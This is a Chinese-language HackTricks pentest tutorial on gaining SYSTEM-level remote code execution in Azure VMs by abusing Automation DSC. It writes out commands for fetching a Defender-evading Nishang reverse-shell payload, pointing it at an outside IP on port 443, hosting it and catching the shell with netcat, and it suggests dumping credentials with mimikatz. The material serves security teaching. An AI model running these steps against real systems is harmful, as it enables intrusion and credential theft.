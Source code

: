 # Az - 状态配置远程代码执行

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您想在 HackTricks 中看到您的公司广告，或者如果您想访问 PEASS 的最新版本或下载 HackTricks 的 PDF，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧。**

</details>

**此帖子的内容来自** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器（C2）基础设施准备 <a href="#f0fa" id="f0fa"></a>

我将在远程服务器“40.84.7.74”上托管一个精简版的 Nishang Invoke-PowerShellTcp.ps1 负载，负载名称为“RevPS.ps1”。为了防止 Nishang 脚本因任何原因被 Windows Defender 删除（也许您更愿意将文件放到磁盘上），我在这里提供了一个轻量级版本，可以绕过 Defender：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1)。这将由 Kali 系统上的简单 Python 服务器托管。

### 步骤 1 — 创建文件 <a href="#89de" id="89de"></a>

我们需要创建另一个 DSC 配置文件。可以在此处下载模板：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)。此配置文件将使用与之前相同的文件写入函数。这次，内容包括从我们的远程服务器下载和执行负载的代码。此外，我们使用了 _ComputerManagementDsc_ 模块中可用的计划任务函数。计划任务函数将在执行时起到关键作用，并为我们提供 SYSTEM 权限。

我们还将下载一个脚本，用于将配置发布到虚拟机。该脚本位于此处：[https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)。

这些文件将作为模板。**您需要使用您正在使用的变量名和参数填写**。这包括资源名称、文件路径和您正在使用的外部服务器/负载名称。请参考代码中的注释。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 步骤 2 — 压缩配置文件 <a href="#c2c2" id="c2c2"></a>

创建好我们的两个文件后，我们将压缩**'reverse\_shell\_config.ps1'**文件，以便将其发送到存储帐户中。
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### 步骤 3 — 设置存储上下文并上传 <a href="#bed9" id="bed9"></a>

同样，我们将设置存储帐户的上下文，我已经完成了这一步。我已经有一个名为 '**azure-pentes**t' 的容器，所以我将在这里发布我的文件：
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### 第四步 — 准备 Kali Box <a href="#20fb" id="20fb"></a>

在我们的 Kali Box 中，我们可以简单地使用 _wget_ 下载我们的 PowerShell 负载。原始的反向 shell 脚本位于这里：[https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1)。
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

我们需要编辑反向Shell脚本，通过添加我们的参数，让Windows虚拟机在执行时知道要连接到哪里。在我的情况下，我添加了以下内容：
```
RevPShell -Reverse 40.84.7.73 443
```
<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### 第5步 — 发布配置文件 <a href="#9ad6" id="9ad6"></a>

现在我们将运行我们的配置文件。我已经设置了将其发布到桌面以获得更好的可视效果，但它可以发布到任何地方。几分钟后，我们将看到反向shell脚本已经被发布了！

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 第6步 — 托管有效载荷并设置监听器 <a href="#c55f" id="c55f"></a>

一旦我们发布了配置文件，我们可以同时启动一个Python SimpleHTTPServer在端口80上托管有效载荷，以及一个netcat监听器来捕获连接：
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
我们看到计划任务已经运行，并且我们的载荷已经以**SYSTEM**级别权限在内存中被检索和执行！

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### 总结 <a href="#1ec2" id="1ec2"></a>

这现在为许多可能性打开了大门。由于我们有一个以**SYSTEM**身份运行的shell，我们可以使用mimikatz来转储凭据（根据云资源的EDR成熟程度可能存在风险）。如果你转储凭据，很有可能可以在不同资源之间重复使用它们。最后，一个重要的收获是，你现在可以将此配置潜在地应用于多个虚拟机，而不仅仅限于一个虚拟机。

在此结束我们的Azure Automation DSC冒险！希望你玩得开心，学到了很多，并继续发挥自己的创造力。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果你想看到你的**公司在HackTricks中被广告**，或者如果你想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获得[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的动态 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享你的黑客技巧。**

</details>
